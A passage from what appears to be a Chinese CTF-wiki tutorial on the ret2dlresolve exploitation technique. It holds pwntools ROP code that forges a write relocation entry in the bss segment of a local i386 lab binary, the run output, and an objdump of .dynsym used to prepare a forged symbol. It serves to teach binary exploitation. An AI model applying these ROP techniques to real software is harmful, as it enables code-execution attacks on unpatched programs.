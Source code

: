 ```python
# write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
# making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = 0x607

rop.raw(plt0)
rop.raw(index_offset)
# fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(write_got)  # fake reloc
rop.raw(r_info)
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```

最后结果如下，这次我们在bss段伪造了一个假的write的重定位项，仍然输出了对应的字符串。

```shell
➜  ret2dlresolve git:(master) ✗ python stage3.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 126063
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive
```

#### stage 4

stage3中，我们控制了重定位表项，但是重定位表项的内容与write原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。首先，我们根据write的重定位表项的r_info=0x607可以知道，write对应的符号在符号表的下标为0x607>>8=0x6。因此，我们知道write对应的符号地址为0x8048238。

```shell
➜  ret2dlresolve git:(master) ✗ objdump -s -EL -j  .dynsym main

main：     文件格式 elf32-i386

Contents of section .dynsym:
 80481d8 00000000 00000000 00000000 00000000  ................
 80481e8 33000000 00000000 00000000 12000000  3...............
 80481f8 27000000 00000000 00000000 12000000  '...............
 8048208 52000000 00000000 00000000 20000000  R........... ...
 8048218 20000000 00000000 00000000 12000000   ...............
 8048228 3a000000 00000000 00000000 12000000  :...............
 8048238 4c000000 00000000 00000000 12000000  L...............
 8048248 2c000000 44a00408 04000000 11001a00  ,...D...........
 8048258 0b000000 3c860408 04000000 11001000  ....<...........
 8048268 1a000000 40a00408 04000000 11001a00  ....@...........
```